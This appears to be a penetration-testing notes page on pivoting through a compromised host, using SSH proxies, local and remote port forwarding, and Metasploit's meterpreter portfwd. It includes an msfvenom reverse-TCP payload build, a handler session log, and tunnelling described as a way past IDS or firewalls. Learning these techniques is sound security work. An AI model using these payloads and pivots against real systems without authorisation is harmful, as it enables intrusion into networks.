 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
   You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using chisel

- [Chisel](https://github.com/jpillora/chisel)